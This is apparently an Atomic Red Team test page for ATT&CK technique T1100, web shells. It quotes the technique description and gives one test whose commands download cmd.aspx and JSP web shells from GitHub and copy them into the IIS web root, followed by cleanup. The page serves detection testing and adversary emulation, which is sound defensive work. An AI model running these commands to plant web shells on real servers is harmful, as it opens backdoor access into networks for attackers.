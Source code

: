 # T1100 - Web Shell
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1100)
<blockquote>A Web shell is a Web script that is placed on an openly accessible Web server to allow an adversary to use the Web server as a gateway into a network. A Web shell may provide a set of functions to execute or a command-line interface on the system that hosts the Web server. In addition to a server-side script, a Web shell may have a client interface program that is used to talk to the Web server (see, for example, China Chopper Web shell client). (Citation: Lee 2013)

Web shells may serve as [Redundant Access](https://attack.mitre.org/techniques/T1108) or as a persistence mechanism in case an adversary's primary access methods are detected and removed.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Web Shell Written to Disk](#atomic-test-1---web-shell-written-to-disk)


<br/>

## Atomic Test #1 - Web Shell Written to Disk
This test simulates an adversary leveraging Web Shells by simulating the file modification to disk.
Idea from APTSimulator.
cmd.aspx source - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| web_shell_path | The path to drop the web shell | string | C:\inetpub\wwwroot|
| web_shells | Path of Web Shell | path | PathToAtomicsFolder\T1100\src\|


#### Attack Commands: Run with `command_prompt`! 


```cmd
xcopy #{web_shells} #{web_shell_path}
```

#### Cleanup Commands:
```
del #{web_shell_path} >nul 2>&1
```


#### Dependencies:  Run with `powershell`!
##### Description: Web shell must exist on disk at specified location (#{web_shells})
##### Check Prereq Commands:
```
if (Test-Path #{web_shells}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```
New-Item -Type Directory (split-path #{web_shells}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1100/src/b.jsp" -OutFile "#{web_shells}/b.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1100/src/tests.jsp" -OutFile "#{web_shells}/test.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1100/src/cmd.aspx" -OutFile "#{web_shells}/cmd.aspx"
```




<br/>
